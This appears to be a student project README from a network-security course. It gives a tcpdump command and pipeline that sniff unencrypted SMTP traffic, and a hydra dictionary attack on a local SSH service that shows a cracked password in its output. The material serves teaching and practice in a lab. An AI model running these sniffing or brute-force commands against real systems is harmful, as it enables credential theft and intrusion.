 # Attack is the best defense

Network security Optional Project

## Tasks:

(0. ARP spoofing and sniffing unencrypted traffic)
sudo tcpdump dst smtp.sendgrid.net and port 587 -Aq > output.txt
cat output.txt | tr '\n' ' ' | sed 's/\s\s/\n/g' | rev | cut -d '.' -f1 | rev | tr -s '\n'

================================================================================

(1. Dictionary attack)
($) hydra -l sylvain -P ~/Downloads/rockyou.txt -t 64 ssh://127.0.0.1:2222
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
